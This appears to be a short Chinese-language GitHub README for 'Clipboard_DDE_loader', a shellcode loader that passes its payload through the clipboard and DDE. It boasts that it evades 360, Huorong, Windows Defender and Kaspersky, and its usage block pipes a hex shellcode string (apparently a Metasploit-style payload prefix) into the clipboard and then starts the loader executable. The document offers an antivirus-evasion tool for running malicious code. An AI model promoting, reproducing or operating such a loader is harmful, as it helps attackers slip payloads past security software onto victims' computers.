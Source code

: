 # Clipboard_DDE_loader

生成的剪贴板+DDE组合的加载器，直接用
原理看之前文章吧，64位效果比32位好
静态+动态基本能过360、火绒、def、卡巴等
卡巴斯基内存查杀主要看你shellcode能不能过了

用法：
```
echo fc4883e4f0e8c00000004... | clip
start Clipboard_DDE.exe\
```
